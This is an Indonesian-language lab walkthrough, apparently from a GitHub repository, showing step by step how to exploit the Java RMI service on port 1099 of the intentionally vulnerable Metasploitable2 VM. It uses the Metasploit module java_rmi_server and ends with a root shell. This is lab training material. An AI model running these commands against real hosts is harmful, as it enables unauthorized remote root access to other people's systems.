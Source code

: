 # Exploit Port 1099 (Java RMI)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Java%20RMI/java%20rmi%201.JPG)

- Cari modul untuk exploit Java RMI
```sh
search java_rmi_server
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Java%20RMI/java%20rmi%202.JPG)

- Disini kita gunakan modul `exploit/multi/misc/java_rmi_server` yang ada di list nomor 0 dari hasil pencarian
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Java%20RMI/java%20rmi%203.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Java%20RMI/java%20rmi%204.JPG)

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Java%20RMI/java%20rmi%205.JPG)

- Jalankan modul tersebut. Setelah dijalankan exploit berhasil mengakses masuk ke dalam server.
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Java%20RMI/java%20rmi%206.JPG)

- Gunakan perintah `sysinfo` untuk melihat versi sistem operasi server. Ketik perintah `shell` untuk masuk ke dalam shell server. Jika diketikkan perintah `whoami` maka kita berhasil dengan user root

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20Java%20RMI/java%20rmi%207.JPG)